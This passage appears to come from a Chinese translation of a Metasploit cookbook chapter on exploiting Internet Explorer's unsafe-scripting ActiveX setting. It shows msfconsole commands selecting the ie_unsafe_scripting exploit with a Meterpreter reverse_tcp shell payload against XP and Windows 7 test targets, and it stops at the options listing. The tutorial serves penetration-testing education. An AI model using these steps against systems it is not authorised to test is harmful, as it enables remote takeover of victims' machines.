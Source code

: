 ## 准备好了吗

我们将从启动 msfconsole 并选择相关漏洞开始。这个过程类似于我们在前几章中讨论的内容。然后，我们将继续选择一个有效负载，它将帮助我们设置与目标机器的 shell 连接。我们将在本配方中处理的漏洞是 `exploit/windows/browser/i.e. unsafe scripting`。

### 注

已知此漏洞会影响 Internet Explorer 版本 6 和 7，这是所有 Windows XP 和 2003 服务器版本中的默认浏览器。但即使在我的 Windows7 终极版上，它也成功地运行了 InternetExplorer8（未打补丁）。

当 Internet Explorer 中标记了未标记为安全的设置的**初始化和脚本 ActiveX 控件时，此漏洞就可以利用。通过启动 Internet Explorer 并浏览到**工具****Internet 选项****安全****自定义级别****初始化并脚本未标记为安全的 ActiveX 控件****启用**，可以找到以下设置。**

![Getting ready](img/7423_04_01.jpg)

在其他版本的 Internet Explorer 中也可以进行类似的设置。在此配方中，我们将利用两个不同的目标。一个是用 IE 7 运行 Windows XP SP2，另一个是用 IE 8 运行 Windows 7。现在让我们继续执行该漏洞利用。

## 怎么做。。。

让我们从启动 msfconsole 开始，并将各自的漏洞设置为活动。一旦两个目标被利用，我们将使用 `reverse_tcp`有效载荷获得与它们的外壳连接：

```
msf > use exploit/windows/browser/ie_unsafe_scripting
msf exploit(ie_unsafe_scripting) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ie_unsafe_scripting) > show options
Module options (exploit/windows/browser/ie_unsafe_scripting):
Name Current Setting Required Description
---- --------------- -------- -----------
SRVHOST 0.0.0.0 yes The local host to..
SRVPORT 8080 yes The local port to..
SSL false no Negotiate SSL..
SSLCert no Path to a custom SSL..
SSLVersion SSL3 no Specify the version..
URIPATH no The URI to use for..
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
```